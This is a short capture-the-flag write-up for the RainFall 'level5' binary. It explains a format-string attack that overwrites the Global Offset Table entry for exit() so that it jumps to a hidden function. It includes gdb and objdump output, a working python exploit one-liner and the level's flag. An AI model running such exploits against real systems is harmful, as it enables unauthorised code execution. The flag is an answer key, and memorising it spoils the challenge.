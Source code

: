 # LEVEL5

The code uses the exit() function, so it is not possible to use the buffer overflow vulnerability on $eip to execute a command in the return of the function, we will be able to use the GOT vulnerability (Global Offset Table / overwriting GOT)

```
   0x080484ff <+61>:	call   ´ <exit@plt>

(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
   0x080483d6 <+6>:	push   $0x28´
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
```

or 

```
level5@RainFall:~$ objdump -R level5 

level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

```
o();
0x080484a4

(gdb) p 0x080484a4
$2 = 134513828
```

```
(python -c 'print("\x38\x98\x04\x08" + "%134513824x" + "%4$n")' ; cat) | ./level5
```


flag : d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

